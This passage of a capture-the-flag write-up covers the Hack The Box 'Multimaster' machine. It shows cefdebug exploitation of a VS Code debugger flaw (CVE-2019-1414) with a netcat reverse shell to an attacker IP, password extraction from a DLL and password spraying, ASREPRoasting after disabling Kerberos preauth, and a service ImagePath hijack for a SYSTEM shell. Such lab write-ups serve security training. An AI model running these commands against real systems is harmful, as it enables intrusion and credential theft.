<figure><figcaption><p>Figure 18: Uploiading and running SharpHound on the target.</p></figcaption></figure>

Sadly, after analyzing the domain data, it seems that the `tushikikatomo` account does not have any potential privilege escalation avenues. There are some interesting things that pop up though:

1. There is a non-default group called `Developers` with 4 members (Figure 19).
2. `sbauer` has [GenericWrite](../../../tl-dr/tl-dr/active-directory/rights/genericwrite.md) rights over the `Jorden` (Figure 20).
3. `sbauer` is a member of the [`Server Operators`](../../../tl-dr/tl-dr/active-directory/groups/server-operators.md) group (Figure 21).

<figure><figcaption><p>Figure 19: The Developers domain group.</p></figcaption></figure>

<figure><figcaption><p>Figure 20: The account sbauer has GenericWrite rights over the account Jorden.</p></figcaption></figure>

<figure><figcaption><p>Figure 21: BloodHound reveals that sbauer is a member of the Server Operators group.</p></figcaption></figure>

## RCE

Having no solid plan to move forward, we can start enumerating the system to see if we can find something there. Checking for running processes, we notice multiple instances of the process `Code` running (Figure 22) and looking for the installed programs we find out that **Visual Studio** is also installed (Figure 23), so we can safely assume that `Code` probably refers to **Visual Studio Code**.



```powershell
Get-Process
```



```powershell
dir "c:\program files (x86)"
```



<figure><figcaption><p>Figure 22: Checking for running processes.</p></figcaption></figure>

<figure><figcaption><p>Figure 23: Enumerating for installed programs.</p></figcaption></figure>

By inspecting what ports listen locally on the host, we can see some relationships between the `Code` instances and some ports (Figure 24).

<figure><figcaption><p>Figure 24: Connecting the dots!</p></figcaption></figure>

After researching for a bit, we find out that there is an **RCE vulnerability** ([CVE-2019-1414](https://msrc.microsoft.com/update-guide/en-us/advisory/CVE-2019-1414)) in VSC related to its debugger, which is explained [here](https://iwantmore.pizza/posts/cve-2019-1414.html) and [here](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944). There is also an [existing PoC](https://github.com/taviso/cefdebug), which includes [pre-compiled binaries](https://github.com/taviso/cefdebug/releases) and by following the steps outlined, we can achieve RCE as `cyork` (Figure 25).




```powershell
# move to writable directory
cd C:\Windows\System32\spool\drivers\color
# upload executables
upload cefdebug.exe
upload nc64.exe
```





```bash
# start listener on the attack host
nc -lvnp 1337
```





```powershell
# scan the local machine for CEF debuggers
.\cefdebug.exe
# send reverse shell command
.\cefdebug.exe --code "process.mainModule.require('child_process').exec('C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.6 1337 -e powershell')" --url ws://127.0.0.1:26519/62fb7883-8db3-47e2-8caf-4495af6fc875
```




<figure><figcaption><p>Figure 25: Receiving a reverse shell as the user cyork.</p></figcaption></figure>

## DLLs & ASREPs

Enumerating the system as `cyork`, we see that we have access to the web root directory (`c:\inetpub\wwwroot\`). In the `\bin` folder there, there is a file called `MultimasterAPI.DLL` (Figure 26) which sounds interesting given that it is named after the box!&#x20;

<figure><figcaption><p>Figure 26: Enumerating the web root directory.</p></figcaption></figure>

After transferring the DLL in our attack host, we can run [`strings`](https://linux.die.net/man/1/strings) to see if anything insteresting comes up.  As mentioned [here](https://en.wikipedia.org/wiki/Dynamic-link\_library), DLL's format can differ depending on Windows version, so it's a good practice to run `strings` with different types of encoding options. By doing that, a database password is revealed (Figure 27).


The file transfer through an HTTP or SMB server was a bit phinicky, so we ended up doing it through the `tushikikatomo`'s WinRM session.




```powershell
# enumerate the web root folder
cd c:\inetpub\wwwroot\
# list bin directory
dir bin
```



```bash
# move to writeable directory
cd C:\Windows\System32\spool\drivers\color
# copy the DLL
copy c:\inetpub\wwwroot\bin\MultimasterAPI.dll .
```




```powershell
# from tushikikatomo's WinRM session

# move to the directory
cd C:\Windows\System32\spool\drivers\color
# download the DLL
download MultimasterAPI.dll
```





```bash
# inspect file type
file MultimasterAPI.dll
# run strings on the file
strings MultimasterAPI.dll | grep pass
# run strings with 16-bit encoding on the file 
strings -eb MultimasterAPI.dll | grep pass
```


<figure><figcaption><p>Figure 27: Running strings with different encoding options.</p></figcaption></figure>

When we password spray once again using our domain username list, we got a hit back (Figure 28).

```bash
# write the password to a file
echo "D3veL0pM3nT!" > db_pass
# password spray using the domain username list
nxc smb 10.10.10.179 -u sid_users -p db_pass | grep +
# check remote access
nxc winrm 10.10.10.179 -u sbauer -p db_pass
# rename the password file
mv db_pass sbauer_pass
```

<figure><figcaption><p>Figure 28: Password spraying move us forward once more!</p></figcaption></figure>

During our [#domain-enumeration](multimaster.md#domain-enumeration "mention"), we saw the `sbauer` has [`GenericWrite`](../../../tl-dr/tl-dr/active-directory/rights/genericwrite.md) rights over `jorden` who is a member of the [`Server Operators`](../../../tl-dr/tl-dr/active-directory/groups/server-operators.md) group. This allows us to compromise the latter by changing its `Does not require preauth` option (Figure 29) which makes it susceptible to [ASREPRoasting](../../../tl-dr/tl-dr/active-directory/attacks/asreproasting.md) (Figure 30).



```bash
evil-winrm -i 10.10.10.179 -u sbauer -p $(cat sbauer_pass)
```



```powershell
# set the preauth option to true
Get-ADUser Jorden | Set-ADAccountControl -doesnotrequirepreauth $true
# check that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```




```bash
nxc ldap 10.10.10.179 -u sbauer -p sbauer_pass --asreproast asreproastable_users.txt
```




<figure><figcaption><p>Figure 29: Setting the PREAUTH for the account jorden.</p></figcaption></figure>

<figure><figcaption><p>Figure 30: ASREPRoasting jorden!</p></figcaption></figure>

After cracking the hash, we can jump into the box as `jorden`.



```bash
hashcat -m18200 asreproastable_users.txt /usr/share/wordlists/rockyou.txt
```



```bash
evil-winrm -i 10.10.10.179 -u jorden -p $(cat jorden_pass)
```



## TBC

Members of the [`Server Operators`](../../../tl-dr/tl-dr/active-directory/groups/server-operators.md) group have the ability to manage services which can be exploited by changing the `ImagePath` of any privileged service and make it execute a reverse shell instead (Figure 31).




```powershell
# change ImagePath
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\spool\drivers\color\nc64.exe -e powershell.exe 10.10.14.6 1337" /f
```




```powershell
reg query "HKLM\System\CurrentControlSet\services\wuauserv"
```



```bash
nc -lvnp 1337
```



```powershell
Start-Service wuauserv
```



<figure><figcaption><p>Figure 31: Modifying the service's ImagePath.</p></figcaption></figure>

We get a `SYSTEM` shell back and we can grab the `root.txt` file 🚩(Figure 32).&#x20;

<figure><figcaption><p>Figure 32: Multimaster is rooted!</p></figcaption></figure>
